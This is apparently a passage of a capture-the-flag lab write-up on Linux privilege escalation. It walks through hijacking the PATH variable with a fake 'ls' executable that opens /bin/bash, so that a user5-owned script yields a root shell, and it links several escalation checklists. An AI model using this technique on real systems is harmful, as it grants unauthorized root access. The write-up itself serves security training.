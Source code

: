 2. Let's go to user5's home directory, and run the file "script". What command do we think that it's executing?
	ls

3. Now we know what command to imitate, let's change directory to "tmp". 	
	No answer needed

	As an alternate method to figuring out what's running, you could run strings on the program and look at the output.

4. Nw we're inside tmp, let's create an imitation executable. The format for what we want to do is:

echo "[whatever command we want to run]" > [name of the executable we're imitating]

What would the command look like to open a bash shell, writing to a file with the name of the executable we're imitating
	echo "/bin/bash" > ls

5. Great! Now we've made our imitation, we need to make it an executable. What command do we execute to do this?
	chmod +x ls

6. Now, we need to change the PATH variable, so that it points to the directory where we have our imitation "ls" stored! We do this using the command "export PATH=/tmp:$PATH"

Note, this will cause you to open a bash prompt every time you use "ls". If you need to use "ls" before you finish the exploit, use "/bin/ls" where the real "ls" executable is.

Once you've finished the exploit, you can exit out of root and use "export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:$PATH" to reset the PATH variable back to default, letting you use "ls" again!
	No answer needed

7. Change back to user 5's home directory
	No answer needed 

8. Run the script and you are now root!
	No answer needed

## [Task 10] Expanding Your Knowledge
'''
Further Learning

There is never a "magic" answer in the huge area that is Linux Privilege Escalation. This is simply a few examples of basic things to watch out for when trying to escalate privileges.The only way to get better at it, is to practice and build up experience. Checklists are a good way to make sure you haven't missed anything during your enumeration stage, and also to provide you with a resource to check how to do things if you forget exactly what commands to use.

Below is a list of good checklists to apply to CTF or penetration test use cases.Although I encourage you to make your own using CherryTree or whatever notes application you prefer.

    https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md
    https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md
    https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_-_linux.html
    https://payatu.com/guide-linux-privilege-escalation
